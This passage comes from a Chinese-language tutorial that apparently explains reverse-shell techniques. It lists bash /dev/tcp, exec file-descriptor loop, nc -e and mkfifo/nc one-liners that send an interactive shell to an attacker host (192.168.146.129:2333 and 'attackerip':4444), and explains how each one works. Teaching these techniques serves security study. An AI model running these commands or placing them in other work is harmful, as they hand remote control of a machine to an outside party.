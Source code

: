   等价于

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
  ```

  示意图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-d004effc-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-d004effc-9c80-1.png)

  ### **3.方法三**

  ```
  exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
  ```

  **简单的解释一下：**

  ```
  exec 5<>/dev/tcp/192.168.146.129/2333
  ```

  这一句将文件描述符5重定向到了 /dev/tcp/192.168.146.129/2333 并且方式是**读写方式**（这种方法在我的前面的文章中也讲到过），于是我们就能通过文件描述符对这个socket连接进行操作了

  ```
  command|while read line do .....done
  ```

  这个是一个非常经典的句子，它的原句是这样的

  ```
  while read line
  do
         …
  done < file
  ```

  从文件中依次读取每一行，将其赋值给 line 变量（当然这里变量可以很多，以空格分隔，这里我就举一个变量的例子，如果是一个变量的话，那么一整行都是它的了），之后再在循环中对line进行操作。

  而现在我们不是从file 文件中输入了，我们使用管道符对攻击者机器上输入的命令依次执行，并将标准输出和标准错误输出都重定向到了文件描述符5，也就是攻击机上，实现交互式shell的功能。

  与之完全类似的还有下面这条指令，读者有兴趣可以自己分析一下：

  ```
  0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
  ```

  ### **4.方法四**

  nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）

  ```
  nc -e /bin/sh 192.168.146.129 2333
  ```

  但是如果是没有-e 选项是不是就不能实现了呢？当然不是，我们可以向下面这样

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
  ```
